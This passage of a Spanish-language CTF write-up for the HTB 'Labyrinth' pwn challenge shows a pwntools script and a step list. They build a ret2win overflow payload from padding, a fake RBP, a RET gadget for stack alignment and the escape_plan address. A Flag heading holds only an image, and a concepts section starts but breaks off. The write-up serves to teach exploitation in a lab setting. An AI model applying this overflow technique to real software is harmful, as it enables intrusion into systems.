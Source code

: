 ```python
ret_gadget = p64(0x401254)  # RET de cls()
ret_addr = p64(0x401255)    # escape_plan

payload = padding + fake_rbp + ret_gadget + ret_addr
conn.sendline(payload)

conn.interactive()
```

Basicamente:

1. - Conectar al servidor
2. - Esperar a que se reciban los caracteres ">> "
3. - Enviar el primer input
4. - Esperar a que se reciban los caracteres ">> "
5. - Llenar la variable local_38 con A * 48
6. - Limpiamos el RBP (Return Base Pointer) con un RBP falso
7. - Indicamos que el RET de cls(), justo antes de la función escape_plan.
8. - Indicamos la dirección de escape_plan
9. - Formamos el payload
10. - Enviamos el payload
11. - Iniciamos la interacción - no es neceseario.

## Flag

![alt text](/assets/img/posts/labyrinth-htb/image-6.png)



# Conceptos

Alinear el stack[#alinear]:
